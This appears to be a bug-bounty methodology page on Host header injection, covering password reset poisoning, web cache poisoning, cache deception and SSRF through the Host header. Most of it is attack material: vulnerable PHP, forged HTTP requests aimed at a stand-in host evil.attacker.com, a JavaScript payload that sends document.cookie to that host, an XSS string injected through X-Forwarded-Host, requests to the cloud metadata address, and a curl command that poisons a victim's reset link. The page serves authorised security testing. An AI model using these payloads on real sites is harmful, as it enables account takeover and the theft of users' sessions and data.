

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/Host-Header

# Host Header Injection

The `Host` header tells the server which virtual host to route to. When the app blindly trusts it for generating URLs  -  password reset links, canonical URLs, cache keys  -  you can manipulate it to redirect those URLs to infrastructure you control. This isn't a standalone finding by default. But password reset poisoning and cache poisoning via Host are real impact bugs that pay.

## Attack Vectors



## Password Reset Poisoning

The classic impact. App generates a reset link using the `Host` header to build the URL:

```php
// Vulnerable code
$reset_link = "https://" . $_SERVER['HTTP_HOST'] . "/reset?token=" . $token;
mail($user_email, "Reset your password", "Click here: " . $reset_link);
```

**Attack:**

```http
POST /forgot-password HTTP/1.1
Host: evil.attacker.com
Content-Type: application/x-www-form-urlencoded
 
email=victim@example.com
```

The victim receives: `Click here: https://evil.attacker.com/reset?token=abc123`

They click it  -  you capture the token at your server  -  you use it to take over the account.

### Headers to Inject

Many apps check the raw `Host` but trust override headers:

```http
Host: legitimate.com
X-Forwarded-Host: evil.attacker.com
 
Host: legitimate.com
X-Host: evil.attacker.com
 
Host: legitimate.com
X-Forwarded-Server: evil.attacker.com
 
Host: legitimate.com
X-HTTP-Host-Override: evil.attacker.com
 
# Port-based  -  some apps build URLs including port
Host: legitimate.com:@evil.attacker.com
 
# Ambiguous host
Host: legitimate.com
Host: evil.attacker.com
```

### Testing Methodology

1. Set up a listener  -  Burp Collaborator or `interactsh`:
`interactsh-client -v`
2. Send the password reset request with `Host` set to your collaborator URL.
3. Check if you receive the reset token at your listener.
4. If the app uses `X-Forwarded-Host`, test that separately.

## Web Cache Poisoning via Host Header

If a caching layer (CDN, Varnish, nginx) caches responses but includes the Host in the cache key incorrectly:

```http
GET / HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.attacker.com
```

If the app uses `X-Forwarded-Host` to build URLs in the response (e.g., resource URLs, canonical links) and the cache stores this response  -  all subsequent visitors to `/` get the poisoned response.

### What Gets Poisoned

```html
<!-- Cache-poisoned response  -  evil.attacker.com in script src -->
<script src="https://evil.attacker.com/static/app.js"></script>
<link rel="canonical" href="https://evil.attacker.com/">
<meta property="og:url" content="https://evil.attacker.com/">
```

Host this JS at `evil.attacker.com/static/app.js`:

```javascript
document.location = 'https://evil.attacker.com/steal?c=' + document.cookie;
```

### Cache Poisoning via Ambiguous Host

```http
GET /static/app.js HTTP/1.1
Host: target.com
X-Forwarded-Host: target.com"><script>alert(1)</script>
```

If the response includes `Host` in a link or script tag and it's cached  -  stored XSS via cache poisoning.

## Web Cache Deception

Different vector. Trick the cache into storing a page it shouldn't (e.g., a user's authenticated profile page), then fetch it unauthenticated.

```bash
# Force the cache to store /account/settings as if it's a static file
GET /account/settings/nonexistent.css HTTP/1.1
Host: target.com
```

If the cache stores this (treating `.css` as cacheable) and the `/account/settings` route ignores the suffix, it serves the authenticated user's data and caches it. You then request the same URL unauthenticated and get their data.

## SSRF via Host Header

Some apps use the `Host` header for internal routing or service discovery:

```http
GET /api/health HTTP/1.1
Host: internal-service.local
 
# Or target internal ranges
Host: 169.254.169.254  # AWS metadata
Host: 10.0.0.1
```

Test on endpoints that seem to proxy or forward requests internally.

## Burp Suite Testing

```text
1. Proxy -> Intercept the password reset request
2. Send to Repeater
3. Modify Host: to your Burp Collaborator URL
4. Also try X-Forwarded-Host: with original Host intact
5. Submit and check Collaborator for the request
```

```bash
# Manual with curl
curl -s -X POST https://target.com/forgot-password \
  -H "Host: $(interactsh-url)" \
  -d "email=victim@target.com"
 
# Check your interactsh client for incoming DNS/HTTP
```

## Reporting Notes

Password reset poisoning = account takeover = P1 on most programs. Cache poisoning requires you to demonstrate the cache actually stores the response  -  show the poisoned response being served to a clean request.

## Related

- [SSTI](../../../Attack-Surface/Web/Injection/SSTI)
- [NoSQLi](../../../Attack-Surface/Web/Injection/NoSQLi)
- [WAF Bypass](../../../Injection/XSS/WAF-Bypass)
